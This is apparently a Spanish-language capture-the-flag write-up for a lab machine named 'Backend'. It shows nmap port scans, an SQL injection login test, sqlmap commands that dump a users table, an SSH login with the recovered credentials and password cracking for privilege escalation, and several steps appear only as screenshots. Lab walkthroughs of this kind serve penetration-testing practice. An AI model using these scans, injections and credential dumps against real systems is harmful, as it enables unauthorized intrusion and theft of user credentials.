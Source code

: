 # Maquina Backend

### Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 172.17.0.1

![alt text](image.png)

### Servicios y versiones

sudo nmap -sVC --min-rate 6000 -p22,80 -vvv -Pn 172.17.0.1

![alt text](image-1.png)

### Entrando en la web

Entrando en http://172.17.0.1/login.html, encontramos un login que al hacer ' or 1=1 -- -, nos da un error lo que me hace pensar de que se puede tratar de un SQLi.

![alt text](image-2.png)


![alt text](image-3.png)

### SQLMAP

Ver bases de datos:

sqlmap -u "http://172.17.0.1/login.html" --forms --batch --dbs

![alt text](image-4.png)

Ver tablas de la base de datos users:

sqlmap -u "http://172.17.0.1/login.html" --forms --batch -D users --tables


![alt text](image-5.png)


Ver el contenido de la tabla usuarios:

sqlmap -u "http://172.17.0.1/login.html" --forms --batch -D users -T usuarios 

![alt text](image-6.png)

### Intrusión

Nos conectamos por ssh con el usuario pepe y su respectiva contraseña, también vemos todos los usuarios en el sistema:

![alt text](image-7.png)


### Escalar privilegios

![alt text](image-8.png)

crackeamos la contraseña con crackstation y listo





